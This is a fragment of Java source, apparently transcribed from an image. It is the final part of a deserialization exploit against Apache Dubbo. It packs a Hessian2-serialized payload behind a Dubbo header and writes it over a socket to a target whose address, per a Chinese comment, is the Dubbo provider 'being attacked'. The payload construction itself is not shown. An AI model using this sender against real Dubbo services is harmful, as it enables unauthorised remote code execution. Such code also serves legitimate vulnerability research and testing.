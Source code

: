 ```java
            ((Cleanable) out).cleanup();
        }

        Bytes.int2bytes(hessian2ByteArrayOutputStream.size(), header, 12);
        byteArrayOutputStream.write(header);
        byteArrayOutputStream.write(hessian2ByteArrayOutputStream.toByteArray());

        byte[] bytes = byteArrayOutputStream.toByteArray();

        //todo 此处填写被攻击的dubbo服务提供者地址和端口
        Socket socket = new Socket("127.0.0.1", 8080);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(bytes);
        outputStream.flush();
        outputStream.close();
    }
}
```

